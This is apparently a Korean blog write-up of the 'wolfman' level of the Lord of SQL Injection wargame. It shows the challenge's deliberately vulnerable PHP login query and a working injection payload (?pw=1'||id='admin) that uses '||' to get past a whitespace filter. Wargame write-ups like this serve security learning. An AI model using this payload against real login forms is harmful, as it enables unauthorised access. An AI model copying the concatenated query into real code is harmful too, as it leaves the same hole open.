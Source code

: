 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - wolfman 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


드디어 첫 줄의 마지막 문제인 `wolfman` 문제이다.  

이번에는 `Blind SQL Injection`이 아니다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_wolfman where id='guest' and pw=''
-------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

첨엔 이 전에 나왔던 문제랑 뭐가 다른건가 했는데 이제보니 `공백`에 대한 필터링이 추가되어 있다.  

당연한 얘기지만 이 경우 이 전 문제들을 풀었던 것 처럼 `1' or id='admin`을 사용할 수 없다.  

그래서 이번에는 `or`이라는 문자열 대신에 `||`을 사용했다.  

`or`을 사용 할 경우에는 `or id='admin` 처럼 무조건 공백이 들어가야 하지만, `||`는 공백 없이 `||id='admin`을 해도 잘 동작하기 때문이다.  

문제를 풀기 위해 아래와 같이 입력 해 보았다.  

```
?pw=1'||id='admin
```

역시 문제를 풀 수 있었다.  

```php
-----------------------------------------------------------------------------
query : select id from prob_wolfman where id='guest' and pw='1'||id='admin'
-----------------------------------------------------------------------------

Hello admin
WOLFMAN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

`WOLFMAN Clear!!`
